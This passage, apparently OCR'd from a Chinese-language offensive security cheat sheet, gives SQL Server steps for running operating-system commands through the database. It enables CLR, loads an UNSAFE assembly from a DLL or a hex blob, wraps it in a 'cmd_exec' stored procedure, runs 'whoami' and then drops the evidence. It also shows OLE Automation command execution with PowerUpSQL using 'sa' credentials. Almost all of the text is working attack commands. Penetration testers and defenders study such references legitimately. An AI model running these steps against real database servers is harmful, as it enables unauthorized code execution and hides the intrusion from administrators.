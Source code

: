    ```sql
   sp_configure 'show advanced options',1; 
   RECONFIGURE
   GO
   ```

2. 在服务器上启用CLR

   ```sql
   sp_configure 'clr enabled',1
   RECONFIGURE
   GO
   ```

3. 导入程序集

   ```sql
   CREATE ASSEMBLY my_assembly
   FROM 'c:\temp\cmd_exec.dll'
   WITH PERMISSION_SET = UNSAFE;
   ```

4. 将程序集链接到存储过程

   ```sql
   CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
   GO
   ```

5. 执行并清理

   ```sql
   cmd_exec "whoami"
   DROP PROCEDURE cmd_exec
   DROP ASSEMBLY my_assembly
   ```

**CREATE ASSEMBLY**还将接受CLR DLL的十六进制字符串表示形式

```sql
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE 
GO 
```

## OLE自动化

* 默认禁用
* 执行操作时使用**服务账户**的权限。

### 使用OLE自动化程序执行命令

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```
